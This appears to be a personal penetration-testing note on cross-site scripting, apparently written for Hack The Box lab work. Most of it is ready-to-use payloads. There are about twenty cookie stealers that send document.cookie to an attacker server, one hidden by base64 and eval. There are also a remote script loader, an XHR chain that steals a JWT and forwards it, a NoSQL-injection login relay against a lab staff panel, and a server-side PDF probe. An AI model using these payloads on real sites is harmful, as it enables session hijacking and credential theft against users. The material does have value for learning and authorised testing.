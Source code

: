 ```yaml
---
creation date: April 17th 2023
last modified date: April 17th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[XSS]]  
___

## Description:  
https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

### Good test payloads
```
<img src =q onerror=prompt(8)>
```

### Classic Cookie Stealer
```
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
Here we have used btoa() method for converting the cookie string into base64 encoded string.
Setup http server to catch responses:
```
python3 -m http.server -m 80
```


### Downloader for longer XSS payloads
```
<script src=http://10.10.14.23:80/payload.js>
```

### stealing value set in a response (such as a jwt token)
Use a downloader to pull the following code:
```
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (xhr.readyState == 4 && xhr.status == 200) {
		var yourtoken = xhr.response
		var xhr2 = new XMLHttpRequest();
		xhr2.open("GET", "http://127.0.0.1:8000/?body=" + yourtoken);
		xhr2.send();
	}
}
xhr.open("GET", "https://some-url.com/v2/authenticationtoken/refresh");
xhr.send();
```
This script will send a request to a specific page as the user and then will send the response back to you.
Make sure to set the first URL as yourself (and open a python http listener) and set the second URL to the request containing the sensitive info in the response.
**This will grab the entire body, use the article below you need to grab a header**

https://medium.com/@agrawalsmart7/steal-csrf-auth-unique-key-header-with-xss-5a54c38d7ec3

### HttpOnly attribute bypass
https://www.shorebreaksecurity.com/blog/xss-exploitation-with-xhr-response-chaining/

### Javascript to make a request to a page as another user

```

var data = new URLSearchParams('email[$ne]=1&password[$regex]=^69.*$');
fetch('http://staff-review-panel.mailroom.htb/auth.php', {
	method: 'POST',
	headers: {
		'Content-Type': 'application/x-www-form-urlencoded'
	},
	body: data.toString()
})
	.then(response => response.text())
	.then(data => {
	// Make a POST request to another website with the data
		fetch('http://10.10.14.23/post', {
			method: 'POST',
			headers: {
				'Content-Type': 'text/plain'
			},
			body: data
		})
			.then(response => console.log('Data sent:', response));
	});

```

# Server Side XSS (Dynamic PDF)
[hacktrick article](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)
If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.

```
Discovery:
List current directory
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>



```

### XSS is .md files

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/xss-in-markdown



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 17th 2023 (12:11 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
